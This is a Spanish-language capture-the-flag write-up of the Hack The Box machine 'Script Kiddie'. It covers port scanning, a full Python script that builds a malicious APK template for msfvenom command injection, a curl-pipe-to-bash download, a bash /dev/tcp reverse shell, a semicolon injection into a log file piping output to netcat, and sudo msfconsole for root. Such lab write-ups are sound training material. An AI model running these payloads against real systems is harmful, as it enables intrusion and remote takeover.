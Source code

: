 ```yaml
---
title: "Script Kiddie - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ScriptKiddie/data/Scriptkiddie.png"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  - Bash
  - Sudo
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ScriptKiddie/data/HTBscriptkiddie.png">
</p>

La máquina **Script Kiddie** es una máquina virtual vulnerable de la plataforma **HackTheBox** con un nivel de dificultad **fácil** una calificación en el rank de 4.1, **5039 USER OWNS** y **4475 SYSTEM OWNS** con la ip **10.10.10.226** y un sistema operativo **Linux**.


# Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.226]** utilizando los parámetros:
 - **-p-:**    Escaneo a toda la gama de puertos (65536).
 - **-n:**     No hacen la resolución del DNS.
 - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
 - **-v:**     Aumenta el nivel de los mensajes verbose.
 - **--open:** Muestra sólo los puertos con un estatus abierto.
 - **-oG:**    Guarda la el output en formato Grepeable.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/scanPort.png?raw=true">
</p>

Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,5000**:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/Ports.png?raw=true">
</p>

Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

 - -sC: Script de enumeración básica de sondeo en puertos y servicios alojados.
 - -sV: Detección de versiones en servicios alojados en puertos.
 - -p : Puertos a inspeccionar.
 - -oN: Formatos de Nmap en los que se guardará el archivo.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/PortServ.png?raw=true">
</p>

Gracias a lo que nos mostró el escaneo de servicios y versiones se puede ver que en el puerto **5000** se aloja un servicio **http** y en el puerto **22** un servicio **ssh**, sabiendo esto y yendo a un navegador e ingresando al servicio **http** por el puerto **5000** se puede ver la siguiente web.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/web.png?raw=true">
</p>

Es una web que cuenta con diferentes herramientas implementada en la web de pentesting como **nmap**, **msfvenom** y **searchsploit**.
Algo que se alcanza a ver es que en la herramienta implementada de **msfvenom** se pueden subir **template**, investigando se puede llegar a un articulo el cual explica una vulnerabilidad existente en una version [desactualizada del framework de metasploit](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/).

En ella se habla de como crear un **apk** malicioso con el cual a la hora de implementarlo como **template** en la creación de un archivo apk el **apk tmplate** injecta comandos en la maquina.

En el articulo habla de como hacerlo con la herramienta de **metasploit** pero no es necesario ya que podemos hacer uso del siguiente código en python que saque de el [github de justinsteven ](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md).
```python
#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b32encode

# Change me
payload = '[Insert Payload]'

# b32encode to avoid badchars (keytool is picky)
# thanks to @fdellwing for noticing that base64 can sometimes break keytool
# <https://github.com/justinsteven/advisories/issues/2>
payload_b32 = b32encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b32} | base32 -d | sh #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
```
En este código solo tenemos que cambiar el **payload** para el **apk maliciosos** que generaremos, en este caso yo me enviare 5 paquetes icmp y para verificar si tengo ejecución de comando examinare los paquetes con **tcpdum**.


Así que voy a la web y cargo el apk malicioso que generé con el script en python.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/exp1.png?raw=true">
</p>

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/exp2.png?raw=true">
</p>

Excelente si tenemos ejecución de comandos en la maquina victima así que modificare el payload para entablar me una shell a mi maquina.

Como yo tuve fallas para entablar me la shell lo que hice fue crear un archivó con codigo en bash en mi maquina y levantar un servicio **http** con python y en el payload del script ingresar: **```payload = 'curl http://[Your IP]/bash.sh | bash'```**.


Esto es así ya que cuando la maquina victima haga el curl y vea el contenido del archivo al pipearlo con bash interpretara el código que en este caso es una conexión por bash a mi maquiná y así otorgándome la shell.

```bash
#!/bin/bash

bash -i >& /dev/tcp/[Your Ip]/[PORT] 0>&1
```


<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/shell.png?raw=true">
</p>


# Privilege escalation


Ahora que ya tenemos el acceso a la maquina se puede ver que accedemos como el usuario **kid** y enumerando el sistema se ve que existen 3 usuario:
* root
* kid
* pwd

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/passwd.png?raw=true">
</p>

En el dirección personal de **kid** hay una carpeta **logs/** con un archivo llamado **hackers** el cual no tiene contenido.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/kid.png?raw=true">
</p>

Si enumeramos mas el sistem podemos acceder al directorio personalde **pwd** en el cual hay un archivo .sh que tiene el siguiente contenido

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Lo que hace este código es verificar si el archivo **"hackers"** tiene contenido y si lo tiene lo filtra a partir del tercer argumento del contendió que tenga y luego este contenido que se supone que debe ser una ip lo manda como argumento a comando de namp para hacer el escaneo.


Algo que podemos hacer es imprimir contenido en el archivo **hackers** y poner en blanco 3 espacios para evitar asi el filtro y concatenado un **';'** esto es así ya que estamos indicando que después de hacer el cat ejecuta la siguiente orden que le pasaremos la cual sera un comando a nuestro beneficio junto a un **'#'** para que no entre en conflicto ningún argumento del script y todo este output ingresarlo en **hackers**.

En este caso para verificar que funcionara probe haciendo un **"whoami"** y enviar el output por **'netcat'** a mi maquina

```bash
echo '    ; whoami | nc 10.10.15.125 444 #' > hackers
```

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/whoami.png?raw=true">
</p>

Excelente ya que se comprueba que podemos injectar comando como **pwd** entonces me entablare una conexión a mi maquina y por ende me dará la shell como el usuario  **pwd**

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/shell2.png?raw=true">
</p>

Muy bien ahora que somos **pwd** buscaremos la forma de escalar privilegios a **root**, enumerando el sistema podemos ver que el usuario **pwd** tiene permisos sudo para ejecutar sin contraseña el framework **/opt/metasploit-framework-6.0.9/msfconsole**.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/sudo.png?raw=true">
</p>

Sabiendo esto una vez que estamos dentro de mestasploit podemos ejecutar comandos como si estuviéramos en una shell y si lo hacemos bajo el privilegios sudo estaríamos ejecutando comando como root e incluso otorgarnos una shell como el mismo.

```bash
sudo -u root /opt/metasploit-framework-6.0.9/msfconsole
```

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/root.png?raw=true">
</p>

Con esto se podría concluir la maquina **ScriptKiddie** así sacando el máximo privilegios que es **root**.

Muchas Gracias por leer <3.
